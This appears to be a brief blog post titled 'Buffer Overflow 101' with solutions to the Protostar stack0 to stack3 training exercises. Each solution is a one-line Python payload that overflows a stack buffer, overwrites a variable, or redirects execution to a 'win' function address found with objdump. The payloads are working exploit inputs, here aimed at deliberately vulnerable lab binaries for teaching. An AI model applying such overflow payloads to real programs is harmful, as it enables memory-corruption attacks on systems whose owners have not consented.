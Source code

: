 ```yaml
---
title:   Buffer Overflow 101
classes: wide
header:
  teaser: /img/postcover/cover2.png
ribbon: blue
categories:
  - Lesson
  - TestCategory
toc: true
---
```


# Protostar

## stack0
https://exploit.education/protostar/stack-zero/

\`python -c "print('a'\*65)"\` | ./stack0  

## Stack1
./stack1 \`python -c "print('a'\*64+'dcba')"\`

## Stack2
export GREENIE= \`python -c "print('a'\*64+'\\x0a\\x0d\\x0a\\x0d')"\`
cause the stack works backwords
./stack2

## Stack3
objdump -t stack3
check the address of the "win" function and use it
\`python -c "print('a'\*64+'\\x24\\x84\\x04\\x08')"\`